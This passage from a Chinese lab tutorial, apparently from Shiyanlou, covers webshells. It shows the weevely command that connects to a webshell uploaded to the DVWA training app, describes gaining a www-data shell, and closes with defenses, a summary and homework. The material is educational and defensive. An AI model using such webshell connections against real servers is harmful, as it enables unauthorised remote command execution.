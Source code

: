 我们回到 kali 的终端中，我们使用 `weevely http://192.168.122.102/dvwa/hackable/uploads/webshell.php shiyanlou` 来与我们的“雷”建立连接，创建一个能够访问的通道--session。

其中 `http://192.168.122.102/dvwa/hackable/uploads/webshell.php` 表示的是我们上传的雷所在的位置，而 `shiyanlou` 是我们当时创建该文件时指定的建立连接的密码。

执行命令之后我们会得到这样的返回：

![show-run-weevely](https://doc.shiyanlou.com/document-uid113508labid2436timestamp1483274552623.png/wm)

提供了我们一个 weevely 的交互，我们可以直接输入我们需要的命令，例如 `pwd`:

![show-run](https://doc.shiyanlou.com/document-uid113508labid2436timestamp1483274564237.png/wm)

从图中我们可以看到本地的 weevely 与我们投放的 webshell 成功的建立了连接，并且我们发现我们成功的以 `www-data` 用户登陆上了目标主机。

由此我们便像 `ssh www-data@192.168.122.102` 一般登陆上了目标主机，在其中我们可以执行所有在权限范围之内的命令：

![show-command](https://doc.shiyanlou.com/document-uid113508labid2436timestamp1483274575331.png/wm)

这便是 webshell，通过一个简单的脚本就能够使得攻击者如 ssh 一般登陆目标主机的 shell，执行各种各样的命令。

> **注意**：若是我们在执行 weevely 的时候遇到这样的错误：

![show-error](https://doc.shiyanlou.com/document-uid113508labid2436timestamp1483275106000.png/wm)

我们需要通过 `rm -rf /root/.weevely` 命令来删除本地中的缓存即可

### 5.5 Webshell 防范

从以上的实践过程中我们可以发现，要使用 webshell 需要这样的一些条件：

- 首先要一个 payload，也就是我们埋在远程主机中的间谍，当然这个可以通过 weevely 生成，亦或者自己开发一个。
- 其次需要一个 upload 漏洞，亦或者能够让远程主机执行该文本文件的漏洞

攻击者生成的 payload 我们没有办法阻止，但是我们可以做到的便是让他没有办法上传至目标主机，即使让其上传至目标主机了，要与其攻击主机建立连接必须使用端口，所以 webshell 的防范方法便是：

- 加强代码逻辑的严谨，尽量让攻击者没有机会上传 webshell 的 payload 到目标主机中。
- 代码逻辑的严谨，我们只能尽量，所以我们可以通过防火墙尽量关闭不必要的端口，让 payload 没有办法与攻击者主机建立连接。

## 6. 总结

本节实验中我们学习了以下内容，任何不清楚的地方欢迎到[实验楼问答](https://www.shiyanlou.com/questions)与我们交流：

- Webshell 简介
- Webshell 实战
- Webshell 防范

请务必保证自己能够动手完成整个实验，只看文字很简单，真正操作的时候会遇到各种各样的问题，解决问题的过程才是收获的过程。

## 7. 作业

1. 查阅资料，寻找与 weevely 类似生成 payload 文件的工具还有什么？